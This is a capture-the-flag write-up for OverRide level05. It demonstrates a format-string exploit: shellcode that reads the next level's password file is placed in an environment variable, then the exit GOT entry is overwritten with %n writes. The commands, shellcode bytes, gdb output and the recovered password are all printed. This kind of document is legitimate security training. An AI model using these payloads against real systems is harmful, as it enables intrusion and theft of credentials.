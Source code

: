 Again, it's a string format exploit. 
We start by exporting our shellcode into an environment variable, we already used it quite a few times.

```bash
export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass")'`
```

We then check the address of the shellcode:

```assembly
(gdb) x/100x *environ
0xffffd790:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xffffd7a0:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xffffd7b0:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xffffd7c0:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xffffd7d0:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xffffd7e0:	0x90909090	0x90909090	0x90909090	0x90909090
[...]
```

And we use the exploit to see where our string can be found in the stack:

```bash
level05@OverRide:~$ cat <(python -c 'print("AAAA" + " %p " * 15)') | ./level05 
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd56f  0xffffd56e  (nil)  0xffffffff  0xffffd5f4  0xf7fdb000  0x61616161  0x20702520  0x20702520  0x20702520  0x20702520  0x20702520 
```

We check where we want to write the address of our environment variable :

```assembly
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   [...]
```

And we go for it : 

```bash
level05@OverRide:~$ cat <(python -c 'print("\xe0\x97\x04\x08" + "%4294957020x" + "%10$n" + " -> %10$p")') | ./level05 
�level05@OverRide:~$ 
```

There is an issue, and it's quite strange because it doesn't print anything....
And it doesn't work because `4294957020` is greater than int32_t max !
So we need to write 2 bytes by 2 bytes:

```bash
cat <(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55256x" + "%10$n" + "%10271x" + "%11$n")') | ./level05
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

```bash
su level6
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

